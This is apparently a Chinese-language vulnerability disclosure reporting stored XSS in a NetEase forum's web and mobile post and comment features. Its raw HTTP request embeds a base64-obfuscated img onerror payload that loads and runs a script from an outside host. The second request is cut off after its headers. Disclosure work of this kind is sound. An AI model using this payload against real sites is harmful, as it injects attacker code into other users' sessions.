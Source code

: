 ## 漏洞名称

> 网易UU论坛深井Web发帖和回复存在存储型XSS漏洞，影响Web端和手机客户端应用

## 漏洞类型
> web漏洞，客户端漏洞，存储型XSS

## 危害等级
> 中危，重复漏洞

## 漏洞URL
- POST https://sowellwell.com/w/v1/community/post/new
- POST https://sowellwell.com/w/v1/comment/proxy
- 最新深井APP
- 弹窗测试,可以点开验证：`https://sowellwell.com/t/612f69f604c21506084dcda2/64fbcdd79f6f44db8d94a7d2`
## 关键数据包
1. 发送XSS帖子

        POST /w/v1/community/post/new HTTP/2
        Host: sowellwell.com
        Cookie: jssdk_deviceid=jssdk_pbRJTpNazMAEeEM2; _sj_web_session_id=_DeAsdSR
        Content-Length: 540
        Identifier: jssdk_pbRJTpNazMAEeEM2
        Accept: application/json, text/plain, */*
        Content-Type: application/json;charset=UTF-8
        Sec-Ch-Ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
        Sec-Ch-Ua-Mobile: ?0
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
        Sec-Ch-Ua-Platform: "Windows"
        Origin: https://sowellwell.com
        Sec-Fetch-Site: same-origin
        Sec-Fetch-Mode: cors
        Sec-Fetch-Dest: empty
        Referer: https://sowellwell.com/z/1y8
        Accept-Encoding: gzip, deflate
        Accept-Language: ja-JP,ja;q=0.9,zh-CN;q=0.8,zh;q=0.7,en-US;q=0.6,en;q=0.5

        {"coid":"","coids":["638ffd8957244da64ff580da"],"title":"测试标题？","content":"<div id=\"mobile_article_theme_warm\" class=\"content_markdown_body\"><p>如题xss payload<img src=x onerror=eval(atob('dmFyIHNjcmlwdD1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTtzY3JpcHQuc3JjPSdodHRwczovL3VyY2hpbi5ub3Nkbi4xMjcubmV0L3lzJTJGNTkyYjUxNGQyYmRkNGJmMDhiZmI1YmRiNzQ1ZGY3Y2MnO2RvY3VtZW50LmdldEVsZW1lbnRzQnlUYWdOYW1lKCdib2R5JylbMF0uYXBwZW5kQ2hpbGQoc2NyaXB0KTs='))></p></div>","device_name":"Web","watermark":true,"media":[],"publish_type":"post"}

2. 发送XSS评论

        POST /w/v1/comment/proxy HTTP/2
        Host: sowellwell.com
        Cookie: jssdk_deviceid=xx; _sj_web_session_id=_DeA0g039t-
        Content-Length: 997
        Identifier: jssdk_pbRJTpNazMAEeEM2
        Accept: application/json, text/plain, */*
        Content-Type: application/json;charset=UTF-8
        Sec-Ch-Ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
        Sec-Ch-Ua-Mobile: ?0
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
        Sec-Ch-Ua-Platform: "Windows"
        Origin: https://sowellwell.com
        Sec-Fetch-Site: same-origin
        Sec-Fetch-Mode: cors
        Sec-Fetch-Dest: empty
        Referer: https://sowellwell.com/ts/2/4yGt?from=comment
        Accept-Encoding: gzip, deflate
        Accept-Language: ja-JP,ja;q=0.9,zh-CN;q=0.8,zh;q=0.7,en-US;q=0.6,en;q=0.5